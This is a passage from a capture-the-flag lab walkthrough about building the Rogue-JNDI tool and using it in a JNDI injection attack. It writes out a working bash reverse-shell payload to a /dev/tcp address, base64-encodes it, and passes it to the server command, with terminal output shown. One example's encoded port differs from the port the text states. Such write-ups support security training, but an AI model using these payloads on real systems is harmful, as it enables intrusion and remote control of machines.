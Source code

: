 Once the build completes successfully, it will create a `.jar` file in `rogue-jndi/target/` directory called `RogueJndi-1.1.jar`. Now we can construct our payload to pass into the `RogueJndi-1-1.jar` Java application

To use the Rogue-JNDI server we will have to construct and pass it a payload, which will be responsible for giving us a shell on the affected system. We will be Base64 encoding the payload to prevent any encoding issues.
`echo 'bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1' | base64`

`echo 'bash -c bash -i >&/dev/tcp/10.10.14.39/6565 0>&1' | base64`

The command above yields the base64 encoded form of the command we put into the `echo` command as parameter. This is to have the entire command's base64 encoded version in plain text, so that we can pass it as a parameter below.

> *Note: we chose `port 6565` here.*

	[*** SNIP ***]
	[INFO] Replacing /home/scrage/rogue-jndi/target/RogueJndi-1.1.jar with /home/scrage/rogue-jndi/target/RogueJndi-1.1-shaded.jar
	[INFO] Dependency-reduced POM written at: /home/scrage/rogue-jndi/dependency-reduced-pom.xml
	[INFO] ------------------------------------------------------------------------
	[INFO] BUILD SUCCESS
	[INFO] ------------------------------------------------------------------------
	[INFO] Total time:  7.018 s
	[INFO] Finished at: 2024-10-19T08:37:07-05:00
	[INFO] ------------------------------------------------------------------------
	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.39]─[scrage@htb-p1ru2f4g72]─[~/rogue-jndi]
	└──╼ [★]$ echo 'bash -c bash -i >&/dev/tcp/10.10.14.39/6565 0>&1' | base64
	YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMzkvNjU2NSAwPiYxCg==


After the payload has been created, we start the `Rogue-JNDI` application while passing in the payload as part of the `--command` option and our `tun0` IP address to the `--hostname` option.

```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}| {base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}"
```

In this example:

```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMzkvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.14.39"
```

> ***Important:** Make sure to delete the spaces next to the pipes for the server command, otherwise the payload will not work and will not give a reverse shell!*

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.39]─[scrage@htb-p1ru2f4g72]─[~/rogue-jndi]
	└──╼ [★]$ java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMzkvNjU2NSAwPiYxCg==}| {base64,-d}|{bash,-i}" --hostname "10.10.14.39"
	+-+-+-+-+-+-+-+-+-+
	|R|o|g|u|e|J|n|d|i|
	+-+-+-+-+-+-+-+-+-+
	Starting HTTP server on 0.0.0.0:8000
	Starting LDAP server on 0.0.0.0:1389
	Mapping ldap://10.10.14.39:1389/o=websphere1 to artsploit.controllers.WebSphere1
	Mapping ldap://10.10.14.39:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
	Mapping ldap://10.10.14.39:1389/o=tomcat to artsploit.controllers.Tomcat
	Mapping ldap://10.10.14.39:1389/o=groovy to artsploit.controllers.Groovy
	Mapping ldap://10.10.14.39:1389/ to artsploit.controllers.RemoteReference
	Mapping ldap://10.10.14.39:1389/o=reference to artsploit.controllers.RemoteReference
	Mapping ldap://10.10.14.39:1389/o=websphere2 to artsploit.controllers.WebSphere2
	Mapping ldap://10.10.14.39:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
